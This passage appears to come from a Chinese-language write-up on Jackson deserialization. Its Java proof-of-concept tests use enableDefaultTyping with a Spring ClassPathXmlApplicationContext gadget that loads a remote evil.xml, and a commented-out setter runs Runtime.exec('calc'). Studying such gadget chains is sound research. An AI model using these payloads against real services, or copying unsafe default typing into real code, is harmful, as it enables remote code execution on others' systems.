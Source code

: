         public void setName(String name) {
            this.name = name;
        }
    
        public int getAge() {
            return age;
        }
    
        public void setAge(int age) {
            this.age = age;
        }
    
        @Override
        public String toString() {
            return "User{" +
                    "name='" + name + '\'' +
                    ", age=" + age +
                    '}';
        }
    
        // public void setTest(Object test) throws IOException {
        //     Runtime.getRuntime().exec("calc");
        // }
    
    
        public void setTest(Object test) {
            this.test = test;
        }
    }
    ```

    我现在要将反序列化的内容转成这个类，那么直接打以下 PoC 是不行的，因为没有匹配到 `User.test`：
    ```java
    @Test
    public void testClassPathXmlApplicationContext_enableDefaultTyping() throws Exception {
        String payload = "[\"org.springframework.context.support.ClassPathXmlApplicationContext\", \"http://127.0.0.1:8888/evil.xml\"]";
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        mapper.readValue(payload, User.class);
        // User user = new User();
        // user.setTest(new ClassPathXmlApplicationContext("http://127.0.0.1:8888/evil.xml"));
        // ObjectMapper mapper = new ObjectMapper();
        // mapper.enableDefaultTyping(ObjectMapper.DefaultTyping.JAVA_LANG_OBJECT);
        // String payload = mapper.writeValueAsString(user);
        // mapper.readValue(payload, User.class);
    }
    ```

    只有对应才可以：
    ```java
    @Test
    public void testClassPathXmlApplicationContext_enableDefaultTyping() throws Exception {
        // String payload = "[\"org.springframework.context.support.ClassPathXmlApplicationContext\", \"http://127.0.0.1:8888/evil.xml\"]";
        // ObjectMapper mapper = new ObjectMapper();
        // mapper.enableDefaultTyping();
        // mapper.readValue(payload, User.class);
        User user = new User();
        user.setTest(new ClassPathXmlApplicationContext("http://127.0.0.1:8888/evil.xml"));
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping(ObjectMapper.DefaultTyping.JAVA_LANG_OBJECT);
        String payload = mapper.writeValueAsString(user);
        mapper.readValue(payload, User.class);
    }
    ```

